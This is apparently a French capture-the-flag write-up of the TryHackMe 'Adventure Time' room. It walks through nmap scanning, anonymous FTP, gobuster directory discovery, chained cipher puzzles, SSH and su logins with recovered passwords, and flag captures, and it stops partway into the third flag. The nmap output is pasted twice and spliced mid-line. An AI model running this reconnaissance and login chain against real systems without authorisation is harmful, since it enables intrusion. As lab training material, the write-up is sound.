

# Adventure Time #

## Task 1 Adventure Time ##

```bash
sudo sh -c "echo '10.10.245.159 adventure.thm ' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ nmap_all adventure.thm
sudo nmap -A adventure.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-15 17:39 CET
Nmap scan report for adventure.thm (10.10.245.159)
Host is up (0.067s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r--    1 ftp      ftp       1401357 Sep 21  2019 1.jpg
| -r--r--r--    1 ftp      ftp        233977 Sep 21  2019 2.jpg
| -r--r--r--    1 ftp      ftp        524615 Sep 21  2019 3.jpg
| -r--r--r--    1 ftp      ftp        771076 Sep 21  2019 4.jpg
| -r--r--r--    1 ftp      ftp       1644395 Sep 21  2019 5.jpg
|_-r--r--r--    1 ftp      ftp         40355 Sep 21  2019 6.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:d2:86:99:c2:62:2d:95:d0:75:9c:4e:83:b6:1b:ca (RSA)
|   256 db:87:9e:06:43:c7:6e:00:7b:c3:bc:a1:97:dd:5e:83 (ECDSA)
|_  256 6b:40:84:e6:9c:bc:1c:a8:de:b2:a1:8b:a3:6a:ef:f0 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29
|_http-title: 404 Not Found
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp   open  ssl/http Apache httpd 2.4.29
|_http-title: You found Finn
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=adventure-time.com/organizationName=Candy Corporate Inc./stateOrProvinceName=Candy Kingdom/countryName=CK
| Not valid before: 2019-09-20T08:29:36
|_Not valid after:  2020-09-19T08:29:36
|_http-server-header: Apache/2.4.29 (Ubuntu)
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck: 
|     Hello Princess Bubblegum. What is the magic word?
|   GetRequest: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not GET / HTTP/1.0
|   HTTPOptions: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS / HTTP/1.0
|   RTSPRequest: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS / RTSP/1.0
|   SIPOptions: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|   afp: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not
|   giop: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not GIOP
|     abcdef
|   ms-sql-s: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not 
|_    MSSQLServer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.92%I=7%D=11/15%Time=61928F77%P=x86_64-pc-linux-gnu%r(
SF:NULL,32,"Hello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic
SF:\x20word\?\n")%r(GetRequest,57,"Hello\x20Princess\x20Bubblegum\.\x20Wha
SF:t\x20is\tim@kali:~/Bureau/tryhackme/write-up$ nmap_all adventure.thm
sudo nmap -A adventure.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-15 17:39 CET
Nmap scan report for adventure.thm (10.10.245.159)
Host is up (0.067s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r--    1 ftp      ftp       1401357 Sep 21  2019 1.jpg
| -r--r--r--    1 ftp      ftp        233977 Sep 21  2019 2.jpg
| -r--r--r--    1 ftp      ftp        524615 Sep 21  2019 3.jpg
| -r--r--r--    1 ftp      ftp        771076 Sep 21  2019 4.jpg
| -r--r--r--    1 ftp      ftp       1644395 Sep 21  2019 5.jpg
|_-r--r--r--    1 ftp      ftp         40355 Sep 21  2019 6.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:d2:86:99:c2:62:2d:95:d0:75:9c:4e:83:b6:1b:ca (RSA)
|   256 db:87:9e:06:43:c7:6e:00:7b:c3:bc:a1:97:dd:5e:83 (ECDSA)
|_  256 6b:40:84:e6:9c:bc:1c:a8:de:b2:a1:8b:a3:6a:ef:f0 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29
|_http-title: 404 Not Found
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp   open  ssl/http Apache httpd 2.4.29
|_http-title: You found Finn
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=adventure-time.com/organizationName=Candy Corporate Inc./stateOrProvinceName=Candy Kingdom/countryName=CK
| Not valid before: 2019-09-20T08:29:36
|_Not valid after:  2020-09-19T08:29:36
|_http-server-header: Apache/2.4.29 (Ubuntu)
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck: 
|     Hello Princess Bubblegum. What is the magic word?
|   GetRequest: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not GET / HTTP/1.0
|   HTTPOptions: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS / HTTP/1.0
|   RTSPRequest: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS / RTSP/1.0
|   SIPOptions: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|   afp: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not
|   giop: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not GIOP
|     abcdef
|   ms-sql-s: 
|     Hello Princess Bubblegum. What is the magic word?
|     magic word is not 
|_    MSSQLServer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.92%I=7%D=11/15%Time=61928F77%P=x86_64-pc-linux-gnu%r(
SF:NULL,32,"Hello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic
SF:\x20word\?\n")%r(GetRequest,57,"Hello\x20Princess\x20Bubblegum\.\x20Wha
SF:t\x20is\x20the\x20magic\x20word\?\nThe\x20magic\x20word\x20is\x20not\x2
SF:0GET\x20/\x20HTTP/1\.0\n")%r(SIPOptions,124,"Hello\x20Princess\x20Bubbl
SF:egum\.\x20What\x20is\x20the\x20magic\x20word\?\nThe\x20magic\x20word\x2
SF:0is\x20not\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r\nVia:\x20SIP/2\.0/TCP\x20
SF:nm;branch=foo\r\nFrom:\x20<sip:nm@nm>;tag=root\r\nTo:\x20<sip:nm2@nm2>\
SF:r\nCall-ID:\x2050000\r\nCSeq:\x2042\x20OPTIONS\r\nMax-Forwards:\x2070\r
SF:\nContent-Length:\x200\r\nContact:\x20<sip:nm@nm>\r\nAccept:\x20applica
SF:tion/sdp\n")%r(GenericLines,32,"Hello\x20Princess\x20Bubblegum\.\x20Wha
SF:t\x20is\x20the\x20magic\x20word\?\n")%r(HTTPOptions,5B,"Hello\x20Prince
SF:ss\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20word\?\nThe\x20magic
SF:\x20word\x20is\x20not\x20OPTIONS\x20/\x20HTTP/1\.0\n")%r(RTSPRequest,5B
SF:,"Hello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20wor
SF:d\?\nThe\x20magic\x20word\x20is\x20not\x20OPTIONS\x20/\x20RTSP/1\.0\n")
SF:%r(RPCCheck,32,"Hello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x
SF:20magic\x20word\?\n")%r(DNSVersionBindReqTCP,32,"Hello\x20Princess\x20B
SF:ubblegum\.\x20What\x20is\x20the\x20magic\x20word\?\n")%r(ms-sql-s,7D,"H
SF:ello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20word\?
SF:\nThe\x20magic\x20word\x20is\x20not\x20\x12\x01\x004\0\0\0\0\0\0\x15\0\
SF:x06\x01\0\x1b\0\x01\x02\0\x1c\0\x0c\x03\0\(\0\x04\xff\x08\0\x01U\0\0\0M
SF:SSQLServer\0H\x0f\0\0\n")%r(afp,5B,"Hello\x20Princess\x20Bubblegum\.\x2
SF:0What\x20is\x20the\x20magic\x20word\?\nThe\x20magic\x20word\x20is\x20no
SF:t\x20\0\x03\0\x01\0\0\0\0\0\0\0\x02\0\0\0\0\x0f\0\n")%r(giop,79,"Hello\
SF:x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20word\?\nThe
SF:\x20magic\x20word\x20is\x20not\x20GIOP\x01\0\x01\0\$\0\0\0\0\0\0\0\x01\
SF:0\0\0\x01\0\0\0\x06\0\0\0abcdef\0\0\x04\0\0\0get\0\0\0\0\0\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/15%OT=21%CT=1%CU=43380%PV=Y%DS=2%DC=T%G=Y%TM=619290
OS:2A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%
OS:O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts: 127.0.1.1, adventure-time.com; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   35.44 ms 10.9.0.1
2   35.91 ms adventure.thm (10.10.245.159)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 742.73 seconds
x20the\x20magic\x20word\?\nThe\x20magic\x20word\x20is\x20not\x2
SF:0GET\x20/\x20HTTP/1\.0\n")%r(SIPOptions,124,"Hello\x20Princess\x20Bubbl
SF:egum\.\x20What\x20is\x20the\x20magic\x20word\?\nThe\x20magic\x20word\x2
SF:0is\x20not\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r\nVia:\x20SIP/2\.0/TCP\x20
SF:nm;branch=foo\r\nFrom:\x20<sip:nm@nm>;tag=root\r\nTo:\x20<sip:nm2@nm2>\
SF:r\nCall-ID:\x2050000\r\nCSeq:\x2042\x20OPTIONS\r\nMax-Forwards:\x2070\r
SF:\nContent-Length:\x200\r\nContact:\x20<sip:nm@nm>\r\nAccept:\x20applica
SF:tion/sdp\n")%r(GenericLines,32,"Hello\x20Princess\x20Bubblegum\.\x20Wha
SF:t\x20is\x20the\x20magic\x20word\?\n")%r(HTTPOptions,5B,"Hello\x20Prince
SF:ss\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20word\?\nThe\x20magic
SF:\x20word\x20is\x20not\x20OPTIONS\x20/\x20HTTP/1\.0\n")%r(RTSPRequest,5B
SF:,"Hello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20wor
SF:d\?\nThe\x20magic\x20word\x20is\x20not\x20OPTIONS\x20/\x20RTSP/1\.0\n")
SF:%r(RPCCheck,32,"Hello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x
SF:20magic\x20word\?\n")%r(DNSVersionBindReqTCP,32,"Hello\x20Princess\x20B
SF:ubblegum\.\x20What\x20is\x20the\x20magic\x20word\?\n")%r(ms-sql-s,7D,"H
SF:ello\x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20word\?
SF:\nThe\x20magic\x20word\x20is\x20not\x20\x12\x01\x004\0\0\0\0\0\0\x15\0\
SF:x06\x01\0\x1b\0\x01\x02\0\x1c\0\x0c\x03\0\(\0\x04\xff\x08\0\x01U\0\0\0M
SF:SSQLServer\0H\x0f\0\0\n")%r(afp,5B,"Hello\x20Princess\x20Bubblegum\.\x2
SF:0What\x20is\x20the\x20magic\x20word\?\nThe\x20magic\x20word\x20is\x20no
SF:t\x20\0\x03\0\x01\0\0\0\0\0\0\0\x02\0\0\0\0\x0f\0\n")%r(giop,79,"Hello\
SF:x20Princess\x20Bubblegum\.\x20What\x20is\x20the\x20magic\x20word\?\nThe
SF:\x20magic\x20word\x20is\x20not\x20GIOP\x01\0\x01\0\$\0\0\0\0\0\0\0\x01\
SF:0\0\0\x01\0\0\0\x06\0\0\0abcdef\0\0\x04\0\0\0get\0\0\0\0\0\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/15%OT=21%CT=1%CU=43380%PV=Y%DS=2%DC=T%G=Y%TM=619290
OS:2A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%
OS:O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts: 127.0.1.1, adventure-time.com; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   35.44 ms 10.9.0.1
2   35.91 ms adventure.thm (10.10.245.159)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 742.73 seconds

```

Nmap notre montre plusieurs services qui sont : 
Le service FTP sur le port 21.  
Le service SSH sur le port 22.  
Le service HTTP sur le port 80.   
Le service HTTPS sur le port 443.   
Un service inconnu sur le port 31337.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp adventure.thm 
Connected to adventure.thm.
220 (vsFTPd 3.0.3)
Name (adventure.thm:tim): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--r--r--    1 ftp      ftp       1401357 Sep 21  2019 1.jpg
-r--r--r--    1 ftp      ftp        233977 Sep 21  2019 2.jpg
-r--r--r--    1 ftp      ftp        524615 Sep 21  2019 3.jpg
-r--r--r--    1 ftp      ftp        771076 Sep 21  2019 4.jpg
-r--r--r--    1 ftp      ftp       1644395 Sep 21  2019 5.jpg
-r--r--r--    1 ftp      ftp         40355 Sep 21  2019 6.jpg
226 Directory send OK.
ftp> mget *
mget 1.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 1.jpg (1401357 bytes).
226 Transfer complete.
1401357 bytes received in 1.18 secs (1.1295 MB/s)
mget 2.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 2.jpg (233977 bytes).
226 Transfer complete.
233977 bytes received in 0.97 secs (235.4779 kB/s)
mget 3.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 3.jpg (524615 bytes).
226 Transfer complete.
524615 bytes received in 0.43 secs (1.1701 MB/s)
mget 4.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 4.jpg (771076 bytes).
226 Transfer complete.
771076 bytes received in 1.20 secs (625.3790 kB/s)
mget 5.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 5.jpg (1644395 bytes).
226 Transfer complete.
1644395 bytes received in 1.82 secs (883.7726 kB/s)
mget 6.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for 6.jpg (40355 bytes).
226 Transfer complete.
40355 bytes received in 0.19 secs (209.0262 kB/s)
```

On a un serveur ftp ou on peut se connecter en anonymous.   
On télécharge 6 fichier.jpg.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ exiftool 1.jpg | grep Comment
XP Comment                      : 01111001 01101111 01110101 00100000
tim@kali:~/Bureau/tryhackme/write-up$ exiftool 2.jpg | grep Comment
XP Comment                      : 01110010 01100101 01100001 01101100 01101100 01111001 00100000
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
tim@kali:~/Bureau/tryhackme/write-up$ exiftool 3.jpg | grep Comment
XP Comment                      : 01101100 01101001 01101011 01100101 00100000
tim@kali:~/Bureau/tryhackme/write-up$ exiftool 4.jpg | grep Comment
XP Comment                      : 01110100 01101111 00100000
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.
tim@kali:~/Bureau/tryhackme/write-up$ exiftool 5.jpg | grep Comment
XP Comment                      : 01110000 01110101 01111010 01111010 01101100 01100101 00100000
tim@kali:~/Bureau/tryhackme/write-up$ exiftool 6.jpg | grep Comment
XP Comment                      : 01100100 01101111 01101110 00100111 01110100 00100000 01111001 01100001
```

Dans les données exifs dans les commentaires on trouves des données en binaire.  

   

On décode le message en binaire et on trouve un message qui dit : you really like to puzzle don't ya (tu aimes vraimment les puzzles)

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://adventure.thm
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL / was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at adventure.thm Port 80</address>
</body></html>
```

Sur la page web principale on a pas de page web.   

   

Sur le page principale sur le service HTTPS on a une personne qui j'ai perdu jack, aide moi à le retrouver.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc adventure.thm 31337
Hello Princess Bubblegum. What is the magic word?
toto
The magic word is not toto
```

Sur le port 31337 on nous demande le mot magique mais je ne le connais pas.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u https://adventure.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  -t 32 -k -q
/candybar             (Status: 301) [Size: 319] [--> https://adventure.thm/candybar/]
/server-status        (Status: 403) [Size: 302]                                    
```

Avec gobuster on trouve le répertoire candybar.   

 

Sur la page candy bar on trouve un personnage avec un message encodé.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d
Palpnh rwtrz iwt HHA rtgixuxrpit udg rajth.
```   

On décode le message en base32 le message est encore encodé.   

   

C'est du code césar on le décode et on a une phrase qui nous dit aller voir dans le certifical SSL.   

   

On regarde les inforations du certificat, on trouve 2 domaine qui sont : 
adventure-time.com
land-of-ooo.com

```bash
sudo sh -c "echo '10.10.208.82 adventure-time.com ' >> /etc/hosts"
sudo sh -c "echo '10.10.208.82 land-of-ooo.com ' >> /etc/hosts"
```

On ajoute les deux domaines à notre fichier hosts.  

   

Sur le domaine land-of-ooo.com on trouve jack.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u https://land-of-ooo.com -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 32 -k -q
/yellowdog            (Status: 301) [Size: 322] [--> http://land-of-ooo.com/yellowdog/]
/server-status        (Status: 403) [Size: 303]                                        
```

   

On trouve une nouvelle page avec gobuster sur le lien yellowdog.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u https://land-of-ooo.com/yellowdog/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 32 -k -q
/bananastock          (Status: 301) [Size: 334] [--> http://land-of-ooo.com/yellowdog/bananastock/]
```

   

On retrouve un autre répertoire sur la page on a un message codé.   

   

On traduis le code morse on trouve le message : THE BANANAS ARE THE BEST!!!  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u https://land-of-ooo.com/yellowdog/bananastock/  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 16 -k -q

/princess             (Status: 301) [Size: 343] [--> http://land-of-ooo.com/yellowdog/bananastock/princess/]
```

On relance gobuster et on trouve encore un autre répertoire qui est princess.   

   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl https://land-of-ooo.com/yellowdog/bananastock/princess/ -k
<!DOCTYPE html>
<html>
<head>
<title>What secret safe?</title>
</head>
<body>
    <div id="container" align="center">
         
    </div>

    <!--
    Secrettext = 0008f1a92d287b48dccb5079eac18ad2a0c59c22fbc7827295842f670cdb3cb645de3de794320af132ab341fe0d667a85368d0df5a3b731122ef97299acc3849cc9d8aac8c3acb647483103b5ee44166
    Key = my cool password
    IV = abcdefghijklmanopqrstuvwxyz
    Mode = CBC
    Input = hex
    Output = raw
    -->

</body>
</html> 

```

On trouve un page avec une image.  
Dans le code source de la page on trouve un texte encodé avec toute les informations pour le décoder.  

 

On décode le message encodé en AES et on voit que le mot magic est : ricardio    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc adventure.thm 31337
Hello Princess Bubblegum. What is the magic word?
ricardio
The new username is: apple-guards
```

En mettant le mot magic on sait que le nom d'utilisateur est : apple-guards    


```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh apple-guards@land-of-ooo.com
apple-guards@land-of-ooo.com's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

1 package can be updated.
0 updates are security updates.

No mail.
Last login: Sat Sep 21 20:51:11 2019 from 192.168.245.129
apple-guards@at:~$ 
```

On obtient une session SSH avec le nom d'utilisateur apple-guards et le mot de passe THE BANANAS ARE THE BEST!!!  

**Content of flag1** 

```bash
apple-guards@at:~$ ls
flag1  flag.txt  mbox
apple-guards@at:~$ cat flag1
tryhackme{Th1s1sJustTh3St4rt}
apple-guards@at:~$ 
```

Dans le répertoire apple-guards on trouve un fichier flag1, on le lit et on a le flag qui est : tryhackme{Th1s1sJustTh3St4rt}  

**Content of flag2**  

```bash
apple-guards@at:~$ ls 
flag1  flag.txt  mbox

apple-guards@at:~$ cat mbox
From marceline@at  Fri Sep 20 16:39:54 2019
Return-Path: <marceline@at>
X-Original-To: apple-guards@at
Delivered-To: apple-guards@at
Received: by at.localdomain (Postfix, from userid 1004)
	id 6737B24261C; Fri, 20 Sep 2019 16:39:54 +0200 (CEST)
Subject: Need help???
To: <apple-guards@at>
X-Mailer: mail (GNU Mailutils 3.4)
Message-Id: <20190920143954.6737B24261C@at.localdomain>
Date: Fri, 20 Sep 2019 16:39:54 +0200 (CEST)
From: marceline@at

Hi there bananaheads!!!
I heard Princess B revoked your access to the system. Bummer!
But I'll help you guys out.....doesn't cost you a thing.....well almost nothing.

I hid a file for you guys. If you get the answer right, you'll get better access.
Good luck!!!!
```

On trouve un autre fichier mbox, c'est un mail qui nous dit qu'un fichier a été caché pour nous.  

```bash
apple-guards@at:~$ find / -type f -user 'marceline' -ls 2>/dev/null
  3018394     20 -rwxr-x---   1 marceline apple-guards    16616 sep 20  2019 /etc/fonts/helper

apple-guards@at:~$ file /etc/fonts/helper
/etc/fonts/helper: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=6cee442f66f3fb132491368c671c1cf91fc28332, for GNU/Linux 3.2.0, not stripped

apple-guards@at:~$ /etc/fonts/helper
======================================
      BananaHead Access Pass          
       created by Marceline           
======================================

Hi there bananaheads!!!
So you found my file?
But it won't help you if you can't answer this question correct.
What? I told you guys I would help and that it wouldn't cost you a thing....
Well I lied hahahaha

Ready for the question?

The key to solve this puzzle is gone
And you need the key to get this readable: Gpnhkse

Did you solve the puzzle? 
yes

What is the word I'm looking for?
```

On cherche les fichiers de marceline.  
On trouve un fichier helper exécutable.  
On l'exécute et on nous demande de décoder Gpnhkse   

   

On décode le mot avec la clé gone, c'est un chiffrement vigenère.   
La mot de passe est : Abadeer   

```bash
======================================
      BananaHead Access Pass          
       created by Marceline           
======================================

Hi there bananaheads!!!
So you found my file?
But it won't help you if you can't answer this question correct.
What? I told you guys I would help and that it wouldn't cost you a thing....
Well I lied hahahaha

Ready for the question?

The key to solve this puzzle is gone
And you need the key to get this readable: Gpnhkse

Did you solve the puzzle? yes

What is the word I'm looking for? Abadeer

That's it!!!! You solved my puzzle
Don't tell princess B I helped you guys!!!
My password is 'My friend Finn'
```

On met le mot trouvé dans helper et il nous donne le mot de passe My friend Finn   

```bash
apple-guards@at:~$ su marceline
Password: My friend Finn

marceline@at:/home/apple-guards$ cd ~

marceline@at:~$ cat flag2 
tryhackme{N1c30n3Sp0rt}
```

On se connecte sur le compte de marceline.  
Dans le répertoire marceline on lit le fichier flag2.   
Le flag est : tryhackme{N1c30n3Sp0rt}  

**Content of flag3**   

```bash
marceline@at:~$ cat I-got-a-secret.txt 
Hello Finn,

I heard that you pulled a fast one over the banana guards.
B was very upset hahahahaha.
I also heard you guys are looking for BMO's resetcode.
You guys broke him again with those silly games?

You know I like you Finn, but I don't want to anger B too much.
So I will help you a little bit...

But you have to solve my little puzzle. Think you're up for it?
Hahahahaha....I know you are.

